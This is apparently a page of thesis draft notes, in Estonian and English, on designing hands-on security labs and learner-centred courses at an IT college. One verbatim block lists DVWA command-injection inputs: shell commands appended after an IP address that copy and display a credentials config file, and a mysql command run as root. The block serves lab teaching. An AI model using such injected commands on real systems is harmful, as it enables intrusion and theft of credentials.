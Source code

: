 \begin{verbatim}
8.8.8.8; pwd

8.8.8.8; cp ../../config/config.inc.php /tmp/asi.txt

8.8.8.8; cat /tmp/asi.txt

Kuigi ping tulemuste all pole config faili sisu näha, 
tehes lehel parema kliki ja valides "View Page Source" näeme, et source faili sees on config.inc.php sisu olemas.


    DVWAs kasutades "Command execution" andmebaasi loomine:
    8.8.8.8; mysql --user=root --password='student' -e 'create database kala;'

Software eggs
http://www.itcollege.ee/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000
    

\end{verbatim}

\url{http://blog.spiderlabs.com/2011/01/detecting-malice-with-modsecurity-csrf-attacks.html}

Lisada upstart ülesanne mysql oom score tuunimiseks.


DHCP laborisse lisada shared-network konfig

Iga peatüki juurde panna kirja, mitu lehekülge on vaja.
E-kiri tsitaatidena - ainult vajalikud osad.
ainekava ei tõlgi - Jääb lisasse eesti keelsena
neljapäeva hommikul 16. saadan töö. - tühja kohta ei ole - todo on tehtud ja jääb keelekorrektuur.
neljapäevaks kaitsmisproov.

 Todays studi in \gls{EITC} include lectures, practical classes and independent work as homework. By and large, one subject is divided as follows: 25\% lectures, 25\% practical classes and 50\% homework which is mostly working with materials (books, web articles). In the worst case, practical work constitutes only 25\% and takes place at \gls{EITC} computer classes.
Moreover, the students are not interested in learning mere theory. The formulas are not seen necessary nor linked to their study area or future job. Theory that is not used will be forgotten quickly. In a few years students won't even remember if a specific topic was covered or not. Applied education should introduce practical approach and learning by doing. In ITC field practical classes and practical homework is the key to achieving acceptable results.
In initial investigation phase the authors role was curricula development, requirements management,  planning hands-on labs and course descriptions.

{\color{red} 
Usable to design a learner centric course instead of teacher centric. 

\url{http://www.youtube.com/watch?v=zB92UMyYzKM}

Course content - get attencion
Ingeraction amoungs students
Jugement 
Student diversity - ebaühtlus
Create a role played scenario
Analyse the material.

\url{http://www.youtube.com/watch?v=oRgLqEF-qAU}

}
Serdi sees url -  Online Certificate Status Protocol (OCSP)
Saab teha ajaaknaga harjutusi. Teenuste uuendamine ja uure vahendite kasutamine ründamiseks...Kõik oleks ajas muutuv.

